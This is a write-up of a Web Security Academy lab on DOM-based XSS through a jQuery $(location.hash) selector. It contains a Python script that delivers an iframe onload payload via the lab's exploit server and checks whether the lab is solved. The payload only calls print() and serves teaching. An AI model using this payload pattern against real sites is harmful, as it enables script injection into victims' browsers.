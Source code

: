 ```yaml
---
title: 'XSS Lab 6'
description: 'DOM-based XSS using jQuery selector and hashchange event'
---
```



## DOM XSS in jQuery selector sink using a hashchange event

<div style="text-align: justify;">
  This lab demonstrates a DOM-based cross-site scripting (XSS) vulnerability on the home page. The vulnerability arises from jQuery's `$()` selector, which uses `location.hash` to auto-scroll to a post based on its title. By manipulating the hash, an attacker can inject JavaScript that is executed in the victim’s browser.
  
  In this exercise, the goal was to deliver an exploit that calls the `print()` function in the victim’s browser, demonstrating a DOM XSS attack without touching the server-side code.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The home page uses `$(location.hash)` to select elements based on the hash in the URL.
- By injecting an iframe containing a malicious `onload` event, arbitrary JavaScript can execute when the victim loads the page.
- The exploit server is used to host the malicious payload and deliver it to the victim.
- The `print()` function is called in the victim browser to confirm execution.
- This attack is fully client-side (DOM XSS), requiring no server-side vulnerabilities.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import sys, time, requests, urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}

def check_burp():
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Start Burp (127.0.0.1:8080) and rerun"); sys.exit(1)

def deliver(exploit_server, lab_url):
    head = "HTTP/1.1 200 OK\r\nContent-Type: text/html; charset=utf-8"
    payload = '<iframe src="{}/#" onload="this.src+=\'<img src=1 onerror=print()>\'">'.format(lab_url)
    data = {"responseBody": payload, "responseHead": head, "formAction":"DELIVER_TO_VICTIM",
            "urlIsHttps":"on","responseFile":"/exploit"}
    try:
        r = requests.post(exploit_server, data=data, verify=False, proxies=proxies, timeout=10)
        r.raise_for_status()
        return True
    except requests.exceptions.RequestException:
        return False

def check_solved(lab_url, tries=5, wait=2):
    s = requests.Session()
    for _ in range(tries):
        try:
            r = s.get(lab_url, verify=False, proxies=proxies, timeout=10)
            if "Congratulations" in r.text or "Solved" in r.text:
                return True
        except requests.exceptions.RequestException:
            pass
        time.sleep(wait)
    return False

if __name__ == "__main__":
    if not (2 <= len(sys.argv) <= 3):
        print(f"Usage: python {sys.argv[0]} <lab-url> [exploit-server]"); sys.exit(1)

    lab = sys.argv[1].rstrip('/')
    if len(sys.argv) == 3:
        exploit = sys.argv[2].rstrip('/')
    else:
        print("Exploit server not provided; exiting.")
        sys.exit(1)

    check_burp()
    print(f"[*] Lab URL: {lab}")
    print(f"[*] Exploit Server: {exploit}/")

    print("[*] Delivering the exploit to the victim.. ", end="", flush=True)
    if deliver(exploit, lab):
        print("[+] OK")
    else:
        print("[-] Delivery failed"); sys.exit(1)

    print("[*] Waiting a moment for the exploit to be delivered and triggered...")
    if check_solved(lab, tries=6, wait=2):
        print("[+] Lab solved 🎉")
    else:
        print("[-] Lab not confirmed as solved")
```